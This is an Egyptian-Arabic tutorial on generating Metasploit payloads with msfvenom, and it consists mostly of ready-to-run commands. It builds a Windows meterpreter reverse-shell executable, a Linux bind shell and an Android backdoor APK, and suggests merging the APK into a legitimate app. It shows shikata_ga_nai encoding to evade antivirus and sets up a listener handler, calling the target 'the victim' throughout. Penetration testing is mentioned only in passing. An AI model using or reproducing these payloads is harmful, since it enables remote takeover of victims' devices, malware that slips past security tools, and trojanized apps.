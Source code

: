 # **🔹 توليد الـ Payloads باستخدام MSFVenom ببساطة 🔹**

## **📌 يعني إيه MSFVenom؟**

هو **أداة في Metasploit بتسمحلك بإنشاء Payloads بسهولة** لاختبار الاختراق، وتقدر تستخدمها لتوليد أنواع مختلفة من الـ Payloads حسب الهدف (ويندوز، لينكس، أندرويد... إلخ).

---

## **🔥 مميزات MSFVenom**

✅ بيجمع بين أدوات **msfpayload** و **msfencode** عشان يبقى أسرع وأقوى.  
✅ بيديك **تحكم كامل** في نوع الـ Payload اللي عايز تولده.  
✅ بيقدر **يشفر (Encode) الـ Payload** عشان يقلل احتمالية اكتشافه.  
✅ بيسمحلك تحدد **التنسيق (Format) اللي عايزه** زي exe أو apk أو elf أو raw.

---

## **🛠️ أوامر أساسية في MSFVenom**

### **🔹 1. عرض كل أنواع الـ Payloads المتاحة**

💻 **لو عايز تشوف كل الـ Payloads المدعومة:**

```bash
msfvenom -l payloads
```

⬅️ هتظهرلك قائمة طويلة بكل الـ Payloads اللي تقدر تستخدمها.

💻 **لو عايز تشوف Payloads خاصة بالويندوز بس:**

```bash
msfvenom -l payloads | grep windows
```

⬅️ هيعرضلك بس الـ Payloads اللي تنفع مع أنظمة الويندوز.

---

## **💡 توليد أشهر أنواع الـ Payloads**

### **🟢 1. توليد Reverse Shell للويندوز**

🔹 لما الضحية يشغل الملف، هيتصل بجهازك ويديلك تحكم كامل.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

✅ **-p**: نوع الـ Payload  
✅ **LHOST**: عنوان جهاز المخترق  
✅ **LPORT**: البورت اللي هيتصل عليه الضحية  
✅ **-f exe**: حفظه كملف exe

---

### **🟢 2. توليد Bind Shell للينكس**

🔹 الضحية هيفتح بورت على جهازه وانت تتصل عليه.

```bash
msfvenom -p linux/x86/shell/bind_tcp RHOST=192.168.1.200 LPORT=5555 -f elf > bind.elf
```

✅ مناسب لو الشبكة مفيهاش فايروول قوي بيمنع الاتصالات الخارجية.

---

### **🟢 3. توليد Payload للأندرويد (APK Backdoor)**

🔹 هينتج ملف APK لما الضحية يثبته، هيديلك تحكم في جهازه.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f apk > backdoor.apk
```

✅ تقدر تدمجه مع تطبيق شرعي باستخدام APKTool.

---

## **🔐 تشفير (Encoding) الـ Payload عشان يتخطى الحماية**

🔹 بعض برامج الحماية بتكشف الـ Payload، عشان كده بنستخدم **Encoders** زي shikata_ga_nai.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```

✅ **-e x86/shikata_ga_nai**: تشفير باستخدام shikata_ga_nai  
✅ **-i 10**: تكرار التشفير 10 مرات

---

## **💡 الخلاصة بالمصري:**

1️⃣ **MSFVenom أداة قوية بتساعدك تولد Payloads لأي نظام تشغيل.**  
2️⃣ **ممكن تعمل Reverse Shell (الضحية يتصل بيك) أو Bind Shell (انت تتصل بالضحية).**  
3️⃣ **بتقدر تختار الـ Format زي exe للويندوز، apk للأندرويد، و elf للينكس.**  
4️⃣ **لو عايز تخفي الـ Payload من برامج الحماية، استخدم التشفير (Encoding).**

---

## **🛠️ خطوات عملية لاستخدام MSFVenom مع Metasploit**

✅ **1. توليد Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على الضحية، هتوصلك جلسة تحكم كاملة!** 🔥